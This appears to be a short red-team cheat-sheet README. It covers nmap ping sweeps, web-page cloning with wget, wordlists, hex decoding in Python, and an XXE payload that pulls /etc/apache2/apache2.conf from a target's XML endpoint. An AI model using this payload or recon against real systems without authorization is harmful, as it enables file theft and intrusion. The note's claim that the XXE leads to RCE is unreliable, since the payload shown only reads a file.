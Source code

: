 # Red Team

* gethead.sh - gets HEAD from some webservesr.
* getrobots.sh - get ```robots.txt``` from webservers.
* hexstr.py - converts hex-encoded str back to ascii

### Very quick ping sweep
```sudo nmap -n -sn -PE -T5 $ipRange```

### Clone web page
```wget -r -nH $url```


### Wordlists
* [SecList](https://github.com/danielmiessler/SecLists)
* raft-large
* rockyou

## Python

## Dealing with hex encoded strings.

### Convert hex to dec, 6c = 'l'
```dec = int("6c", 16)```

### Print that in ascii
``` print chr(dec)```

## XXE (XML External Entity)

Find some Rest/XML API endpoint of a webapp, using POST requests you can get it to RCE.
```xml
<?xml version="1.0"?>
<!DOCTYPE food [
<!ELEMENT foo ANY>
<!ENTITY entityex SYSTEM "file:///etc/apache2/apache2.conf">
]>
<abc>&entityex;</abc>
```

